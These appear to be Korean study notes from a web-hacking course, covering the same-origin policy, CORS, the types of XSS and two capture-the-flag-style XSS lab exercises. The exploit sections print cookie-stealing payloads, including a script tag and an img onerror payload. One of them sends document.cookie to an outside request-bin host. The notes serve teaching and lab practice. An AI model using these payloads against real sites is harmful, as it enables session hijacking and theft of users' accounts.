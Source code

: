 # dreamhack

## Cross Origin Resource Sharing (CORS)

- Same Origin Policy 제한 완화
    - **웹 서비스에서 동일 출처 정책인 SOP를 완화하여 다른 출처의 데이터를 처리 해야 하는 경우도 있습니다.**
    - 교차 출처 리소스 공유 (Cross Origin Resource Sharing, CORS)
    - |Header|설명|
        |-|-|
        |Access-Control-Allow-Origin|헤더 값에 해당하는 Origin에서 들어오는 요청만 처리|
        |Access-Control-Allow-Methods|헤더 값에 해당하는 메소드의 요청만 처리|
        |Access-Control-Allow-Credentials|쿠키 사용 여부를 판단합니다. 예시의 경우 쿠키의 사용을 허용|
        |Access-Control-Allow-Headers|헤더 값에 해당하는 헤더의 사용 가능 여부를 나타냅니다.|
    - **브라우저는 수신측의 응답이 발신측의 요청과 상응하는지 확인하고, 그때야 비로수 POST 요청을 보내 수신측의 웹리소스를 요청하는 HTTP 요청**
    - JSON with Padding : 과거의 방식, CORS 사용 권장
## 요약
- Same Origin Policy (SOP) : 동일 출처 정책, 현재 페이지의 출처가 아닌 다른 출처로부터 온 데이터를 읽지 못하게 하는 브라우저의 보안 메커니즘
- Same Origin : 현재 페이지와 동일한 출처
- Cross Origin : 현재 페이지와 다른 출처
- Cross Origin Resource Sharing(CORS) : 교차 출처 리소스 고유

## ClientSide: XSS

- Cross Site Scripting의 약어가 XSS인 이유 : CSS와 중복으로 XSS으로 강제 개명
- XSS 발생 예시와 종류
- |종류|설명|
    |-|-|
    |Stored XSS|XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS|
    |Reflected XSS|**악성 스크립트가 URL에 삽입** **서버의 응답에 담겨오는** XSS|
    |DOM-based XSS|**악성 스크립트가 URL Fragment에 삽입**|
    |Universal XSS|클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS|
- 1. 쿠키 및 세션 탈취 공격 코드
    2. 페이지 변조 공격 코드
    3. 위치 이동 공격 코드

- Stored XSS 
- Reflected XSS
    - Click Jacking or Open Redirect
- Cross Site Scripting (XSS): 클라이언트 사이드 취약점,
- Stored XSS : 악성 스크립트가 서버 내에 존재, 이용자가 저장된악성 스크립트를 조회할 때 발생
- Reflected XSS : 악성 스크립트가 이용자 요청 내에 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 응답을 출력할 때 발생

## Exercise:XSS
- |페이지|설명|
    |-|-|
    |/|인덱스 페이지입니다.|
    |/vuln|이용자가 입력한 값을 출력합니다.|
    |/memo|이용자가 메모를 남길 수 있으며, 작성한 메모를 출력합니다.|
    |/flag|전달된 URL에 임의 이용자가 접속하게끔 합니다. **해당 이용자의 쿠키에는 FLAG가 존재** |

## 웹 서비스 분석
- 취약점 분석
- memo : **render_template** , **memo.html** , **render_template** 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기 때문에 XSS가 발생하지 않습니다.

## 익스플로잇
- |속성|설명|
    |-|-|
    |location.href|전체 URL을 반환하거나, URL을 업데이트할 수 있는 속성값입니다.|
    |document.cookie|해당페이지에서 사용하는 쿠키를 읽고, 쓰는 속성값입니다.|

## 쿠키 탈취
- 임의 이용자의 쿠키를 탈취하기 위한 방법은 다음과 같이 두 가지
    - memo 페이지 사용
        - flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면, memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있습니다.
        - <script>location.href = "/memo?memo=" + document.cookie;</script>
    - 웹 서버 사용
        - 외부에서 접근 가능한 웹 서버를 통해 탈취한 쿠키를 확인할 수 있다.
        - 해당 서비스에서 제공하는 Request Bin 기능은 이용자의 접속 기록을 저장하기 때문에 해당 정보를 확인할 수 있다.
        - <script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo=" + document.cookie;</script>

        ![alt text](image.png)
        ![alt text](image-1.png)
        ![alt text](image-2.png)

## Exercise: XSS-2
- /vuln : 이용자가 입력한 값을 출력
    - render_template 함수 사용 : Flask 웹프레임워크에서 제공하는 함수
    - param에 <script>alert(1)</script>를 입력하더라도 XSS가 발생하지 않는다
- /memo : 이용자가 메모를 남길 수 있으며, 작성한 메모
    - memo 파라미터 값을 render_template 함수를 통해 출력하는 것
- /flag : 전달된 URL에 임의 이용자가 접속하게끔 합니다. 해당 이용자의 쿠키에는 FLAG가 존재 
    - check_xss 함수에서는, 이용자가 flag에 POST로 전송한 param 값이 XSS 공격에 사용될 수 있는 값인지 아닌지를 확인. check_xss에서는, 이용자가 flag 페이지에 입력한 param을 포함하여 vuln 페이지에 접근하는 URL을 생성
    - read_url 함수를 통해 vuln 페이지에 접근한는 URL과 사용자의 쿠키가 전달
## 취약점 분석
|var content = document.getElementById('example').innerHTML;|읽기:요소의 내부 HTML을 가져옵니다.|
|-|-|
|document.getElementById('example').innerHTML='New Content';|쓰기:요소의 내부 HTML을 변경합니다.|

## vuln.html
- <script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>
- 파라미터의 값을 통해 '쓰기'를 수행

## 익스플로잇
- XSS 취약점을 통해 임의 이용자의 쿠키를 탈취
- 익스플로잇 코드
- <img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">
![alt text](image-3.png)
![alt text](image-4.png)


## ClientSide: CSRF
- 교차 사이트 요청 위조(Cross Site Request Forgery, CSRF)
- Cross Site Request Forgery(CSRF)